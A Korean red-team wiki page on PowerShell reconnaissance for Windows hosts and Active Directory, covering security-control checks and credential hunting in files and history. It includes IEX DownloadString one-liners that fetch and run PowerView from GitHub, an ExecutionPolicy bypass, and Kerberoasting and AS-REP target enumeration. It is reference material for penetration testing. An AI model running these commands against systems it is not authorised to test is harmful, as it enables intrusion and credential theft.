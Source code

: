 # 정보 수집 - 파워쉘 - TODO

로컬 호스트 정보 수집 페이지에서도 잠깐 언급했지만, cmd 및 파워쉘을 통한 정보 수집은 레드팀 작전의 작전보안에 적합하지 않다.&#x20;

그러나 레드팀을 제외하고 모의해킹, 그리고 블루팀의 엔드포인트 감사/테스팅에서 파워쉘을 여전히 많이 쓰이고 있다. 따라서 아주 소수의, 고급 APT 공격 시뮬레이션을 하는 레드팀을 제외한다면 CMD 파워쉘을 통한 정보 수집은 아직도 많이 사용된다. 따라서 이 페이지에서는 파워쉘을 통한 로컬/도메인 정보 수집에 대해서 알아본다.&#x20;



### 로컬&#x20;

#### 기본&#x20;

* 유저, 그룹, 호스트이름, 네트워킹, 프로세스 리스 등의 간단한 기본 정보를 수집한다.&#x20;

```
# 유저 및 그룹 
whoami 
net user 
net users
net localgroups 
net group /domain 
net localgroup Administrators

# 프로세스 
ps 
Get-Process
tasklist.exe /V
wmic process get ProcessId,Description,ParentProcessId,ReadOperationCount,WriteOperationCount

# 호스트 이름 
hostname

# 네트워킹 - layer 2,3 
ipconfig /all 
route print
arp -a 

# 도메인 이름 
Get-WmiObject -Namespace root\cimv2 -Class Win32_ComputerSystem | Select Name, Domain
$env:USERDOMAIN

# OS 버전과 핫픽스 존재여부 
systeminfo 
Get-HotFix

# 파워쉘 세션 ID 확인. 0 = NT 서비스/시스템, 1++ = 유저 
(Get-Process -PID $pid).SessionID
```

#### 엔드포인트 보안&#x20;

* AV/EDR 솔루션, AMSI, .NET 버전 (4.8+ = .NET AMSI), Applocker, Credential Guard, 파워쉘 Constrained Language Mode, 파워쉘 version 2, 로컬 방화 등의 엔드포인트 보안과 관련된 정보를 수집한다.

```
# 방화벽 
Get-NetFirewallProfile | Select-Object -Property name,enabled,DefaultInboundAction,DefaultOutboundAction,LogFileName

# AV/EDR 솔루션 
Get-Process 
wmic process get ProcessId,Description,ParentProcessId,ReadOperationCount,WriteOperationCount

# AV/EDR 이 없다면 디펜더 체크 
get-mppreference | select DisableRealtimeMonitoring 

# AMSI - 활성화 되어 있을 때 
Invoke-Mimikatz 
This script contains malicious content and has been blocked by your antivirus software.

# AMSI - 비활성화 
Invoke-Mimikatz 
invoke-mimikatz : The term 'invoke-mimikatz' is not recognized as the name of a cmdlet, function, script file, or operable program.

# .NET Version 
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP' -Recurse | Get-ItemProperty -Name version -EA 0 | Where { $_.PSChildName -Match '^(?!S)\p{L}'} | Select PSChildName, version

# Powershell CLM (Contrained Language Mode) 
$ExecutionContext.SessionState.LanguageMode

# Powershell Version 2
powershell.exe -v 2

# Credential Guard 
(Get-ComputerInfo).DeviceGuardSecurityServicesConfigured

# Applocker - Local, Default Domain policy 
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

# Applocker - Local registry 
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\ -Recurse

# 파워쉘 ExecutionPolicy 확인 및 Bypass 로 설정 
Get-ExecutionPolicy -List
$env:PSExecutionPolicyPreference="bypass"

```

#### 간단 정보 수집&#x20;

```
# txt, xml, ini 파일안의 평문 비밀번호 
findstr /si password *.txt | *.xml | *.ini

# 파워쉘 히스토리 powershell history 
echo $env:userprofile 
cat %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

# 데브옵스 및 배포 파일 
c:\sysprep.ini
c:\sysprep\sysprep.xml 
C:\unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```



### 액티브 디렉토

* 파워쉘을 통한 도메인 정보 수집은 PowerView.ps1 와 같은 툴을 이용하거나 [MS-ActiveDirectory Module](https://docs.microsoft.com/en-us/powershell/module/activedirectory/?view=windowsserver2022-ps) 을 이용한다. MS AD 모듈의 경우 설치되어 있지 않은 호스트들도 많기 때문에 Powerview 등의 툴을 많이 사용하는 편이다.&#x20;
* Powerview 등의 파워쉘 기반의 도메인 정보 수집 툴을 이용하려면 [AMSI 우회](../defense-evasion/amsi-우회.md)를 해야한다.&#x20;
* 다음은 Powerview 기반의 정보 수집 명령어들이다.

```
# AMSI 우회 
< AMSI 우회 페이지를 참고한다 > 

# PowerView 로드 - BCSecurity - 최신이지만 에러 존재 
IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/situational_awareness/network/powerview.ps1')

# PowerView 로드 - HarmJoy 의 원본 PowerView 
iex(New-Object net.webclient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1')

# 도메인  
Get-Domain
Get-DomainController -Domain <도메인>

# 도메인 신뢰/관계
Get-DomainTrust

# 포레스트
Get-Forest -Forest <포레스트이름>

# 도메인 유저 
Get-DomainUser | Select-Object samaccountname
Get-DomainUser | select-object samaccountname,description

# 커버로스팅 가능한 유저 
Get-DomainUser -SPN | Select-Object name,serviceprincipalname
Get-DomainUser -SPN -Properties SamAccountName, ServicePrincipalName

# AS-Rep 가능한 유저 
Get-DomainUser -PreauthNotRequired | select-object name 

# 도메인 그룹 
Get-DomainGroup | Select-Object name

# 특정 그룹의 유저 
Get-DomainGroupMember -Identity "<그룹이름>" -Recurse | Select-Object -Property GroupName,MemberName | Format-Table

# 도메인 컴퓨터 
Get-DomainComputer -Domain <도메인> | Select-Object dnshostname
Get-DomainComputer -Domain <도메인> | Select-Object dnshostname | %{Test-Connection -count 1 -ComputerName $_.dnshostname} *>&1

# 도메인 GPO 
Get-DomainGPO | Select-Object displayname

# 잠재적 허니팟 (honeypot) 유저 
Get-DomainUser | select-object cn,pwdlastset,badpwdcount,logoncount

# 현 유저가 로컬 관리자 권한을 갖고 있는 호스트 
Find-LocalAdminAccess -Domain <도메인>

# 도메인 내 공유된 폴더 
Find-DomainShare -Domain <도메인>

# Unconstrained Delegation 호스트 
Get-DomainComputer -Unconstrained
```



